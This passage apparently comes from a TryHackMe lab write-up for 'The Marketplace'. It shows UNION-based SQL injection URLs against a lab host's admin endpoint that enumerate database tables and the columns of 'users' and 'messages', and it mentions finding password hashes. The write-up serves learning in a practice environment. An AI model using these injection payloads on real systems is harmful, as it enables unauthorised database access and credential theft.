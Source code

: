 ![/assets/images/TryHackMe/The_marketplace/Untitled%2013.png](/assets/images/TryHackMe/The_marketplace/Untitled%2013.png)

So the database name is marketplace

## Tables in database

```bash
http://10.10.87.36/admin?user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'
```

Information_schema has metadata about the database.

![/assets/images/TryHackMe/The_marketplace/Untitled%2014.png](/assets/images/TryHackMe/The_marketplace/Untitled%2014.png)

## Columns in tables

```bash
http://10.10.87.36/admin?user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'
```

![/assets/images/TryHackMe/The_marketplace/Untitled%2015.png](/assets/images/TryHackMe/The_marketplace/Untitled%2015.png)

Same can be done with other tables as well. There were password hashes but I could not find anything so I enumerated the database further.

## Columns in messages

```bash
http://10.10.87.36/admin?user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='messages'
```

